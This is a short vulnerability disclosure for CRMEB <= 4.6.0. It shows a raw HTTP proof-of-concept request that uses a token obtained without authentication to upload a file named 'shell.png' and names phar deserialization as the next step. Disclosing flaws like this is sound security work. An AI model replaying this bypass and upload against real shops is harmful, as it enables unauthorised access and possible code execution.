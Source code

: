 # CRMEB is vulnerable to Broken Access Control
## Description
    CRMEB <= 4.6.0 is vulnerable to Broken Access Control
## Vendor Homepage
    https://gitee.com/ZhongBangKeJi/CRMEB,https://www.crmeb.com/

## Author
    HuBenLab
## Proof of Concept
Through /api/wechat/app_auth post: 1=1 can return the token, by replacing the token can bypass the authentication to upload images and then you can use phar deserialization

![image-20230605163549289](./img/image-20230605163549289.png)

payload

```http
POST /api/upload/image HTTP/1.1
Host: 172.16.5.221
Content-Length: 287
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJsaWFvdHQudC5jZHFseC5jb20iLCJhdWQiOiJsaWFvdHQudC5jZHFseC5jb20iLCJpYXQiOjE2NzM0OTk4NDksIm5iZiI6MTY3MzQ5OTg0OSwiZXhwIjoxNjc2MDkxODQ5LCJqdGkiOnsiaWQiOjExODUsInR5cGUiOiJ3ZWNoYXQifX0.cc-_5lJJIxBmUc2MR31ydX3GRFHT4cwH5aiHPtcE6yg
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryO3BpijrHT2ypfQ6z
Accept: */*
Origin: http://172.16.5.221
Referer: http://172.16.5.221/pages/users/user_info/index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: cb_lang=zh-cn; WS_ADMIN_URL=ws://172.16.5.221/notice; WS_CHAT_URL=ws://172.16.5.221/msg; PHPSESSID=fb53477e921d8cb7aa9db4248abd6dce
Connection: close

------WebKitFormBoundaryO3BpijrHT2ypfQ6z
Content-Disposition: form-data; name="filename"

pics
------WebKitFormBoundaryO3BpijrHT2ypfQ6z
Content-Disposition: form-data; name="pics"; filename="shell.png"
Content-Type: image/png

GIF89a
------WebKitFormBoundaryO3BpijrHT2ypfQ6z--
```

![image-20230605163927953](./img/image-20230605163927953.png)
